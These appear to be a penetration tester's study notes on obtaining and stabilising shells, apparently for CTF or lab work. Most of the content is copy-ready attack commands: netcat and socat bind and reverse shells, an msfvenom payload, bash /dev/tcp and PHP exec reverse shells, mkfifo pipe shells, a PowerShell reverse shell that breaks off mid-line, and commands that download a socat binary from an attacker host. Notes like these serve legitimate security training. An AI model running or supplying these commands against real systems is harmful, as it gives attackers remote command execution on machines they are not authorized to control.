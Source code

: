 # Shells

It’s not uncommon for host-based firewalls to block access to our bind 
shells. This can be incredibly frustrating at times, especially when under pressure 
and dealing with time constraints. When in doubt, we use a reverse shell as they 
are typically easier to troubleshoot






## Bind Shell
Execute a listener on the Target.

The code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

### Snippets

Target:
`nc -lvnp <PORT> -e /bin/bash`

If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. 
Attacker:
`nc [TARGET IP] <PORT>`

Connecting to the above listener with netcat would result in a bind shell on the target.

Here we are using netcat to make an outbound connection to the target on our chosen port.


#### socat
On a Linux target we would use the following command:
`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes` (We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.)

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`



















## Reverse Shell
require shellcode and a listener

If you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.


A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.



### Snippets


#### netcat
Tip: use `rlwrap` to provide a readline-style editing of the command line
Ex: `sudo rlwrap nc -lvnp 443`

Target:
`nc [ATTACKER IP] 4444 -e /bin/bash`

Attacker:
`sudo nc -lnvp 4444`






#### socat

`socat TCP-L:<port> -` is equivalent to `nc -lvnp <port>`
On Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` (The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.)



#### msfvenom
Example: generate a reverse shell payload using msfvenom:
`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format


#### Bash
bash -c 'bash -i >& /dev/tcp/[ATTACKER MACHINE IP]/1234 0>&1'

#### PHP - Bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER MACHINE IP]/1234 0>&1'");
may have to scape the quotes
exec(\"/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER MACHINE IP]/1234 0>&1'\");












## Encrypted Shell

`socat` is capable of creating encrypted shells, both bind and reverse. 
Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.




















### Shell Stabilisation

```
# step 1
python -c 'import pty;pty.spawn("/bin/bash")' # note that some targets may need the version of Python specified
# step 2
export TERM=xterm # this will give us access to term commands such as clear  
# step 3
stty raw -echo; fg # it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

```



```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
# Then press Enter twice, and then enter:
export TERM=xterm
```






It's also useful to be able to change your terminal tty size. First check the current values with: `stty -a` and then change it with `stty rows NUMBER` and `stty cols NUMBER`.



Another way stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.
























## Payloads

<https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/>



On Linux use this code to create a listener for a BIND SHELL:
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

A very similar command can be used to send a netcat REVERSE SHELL:
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

More on `mkfifo`: <https://www.linuxjournal.com/article/2156>


### Powershell REVERSE SHELL
```pwsh
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$s
```




